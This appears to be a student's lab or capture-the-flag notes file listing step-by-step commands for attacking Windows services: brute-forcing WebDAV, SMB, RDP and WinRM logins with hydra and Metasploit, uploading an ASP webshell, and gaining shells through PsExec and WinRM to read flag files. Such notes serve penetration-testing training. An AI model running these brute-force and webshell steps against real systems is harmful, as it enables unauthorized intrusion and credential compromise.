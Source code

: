 ### Windows: IIS Server DAVTest
	commands 
	nmap -sV -sC ip -vvv
	nmap --script http-enum -sV -p80 ip
bruteforce with hydra without login credentials
	hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ip http-get /webdav/ 
step 3 upload files on website with login credentials

	davtest -url http://ip/webdav
	davtest -auth bob:password_123321 -url http://ip/webdav

Step 4 upload .asp backdoor on the target machine to webdav directory using cadaver utility

	cadaver http://ip/webdav and enter the username:password
	Uploading asp backdoor to the IIS web server in webdav directory.
	put /usr/share/webshells/asp/webshell.asp
	ls
Step 5 go to the url http://ip/webdav and enter the login credentials bob:password_123321 and enter the webshell.asp
	dir C:\\
	type C:\\flag.txt


### Exploiting WebDAV with Metasploit
	commands
	nmap -sV -sC ip 
	nmap -sV -O
	davtest -url http://ip/webdav
	davtest -auth bob:password_123321 -url http://ip/webdav
	msfconsole -q
	use exploit/windows/iis/iis_webdav_upload_asp
	set RHOSTS ip
	set HttpUsername bob
	set HttpPassword password_123321
	set PATH /webdav/metasploit%RAND%.asp
	exploit
	shell
	cd /
	dir
	type C:\flag.txt


### Exploiting SMB with PsExec

$$cat /root/Desktop/target
$$

$$nmap ip
- nmap -p445 --script smb-protocols ip
- msfconsole -q
- use auxiliary/scanner/smb/smb_login
- set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
- set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
- set RHOSTS ip
- set VERBOSE false
- exploit
$$

< '- use exploit/window/smb/psexec'>
< '- set RHOSTS ip'>
< '- set SMBUser Administrator' >
< '- set SMBPass qwertyuiop' >
< '- exploit'

- shell
- cd /
- dir
- type flag.txt

### Windows: Insecure RDP Service

- nmap ip
- msfconsole
- use auxiliary/scanner/rdp/rdp_scanner
- set RHOSTS ip
- set RPORT ip
- exploit

- hyrda -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://ip -s 3333

- xfreerdp /u:administrator /p:qwertyuiop /v:ip:3333
- searching for the flag in C:\\

#### WinRM: Exploitation with Metasploit

- nmap --top-ports 7000 10.0.0.173
- msfconsole -q
use auxiliary/scanner/winrm/winrm_login
set RHOSTS 10.0.0.173
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit

- use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS 10.0.0.173
exploit

- use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS 10.0.0.173
set USERNAME administrator
set PASSWORD tinkerbell
set CMD whoami
exploit

- use exploit/windows/winrm/winrm_script_exec
set RHOSTS 10.0.0.173
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit

- cd /
- dir
- cat flag.txt
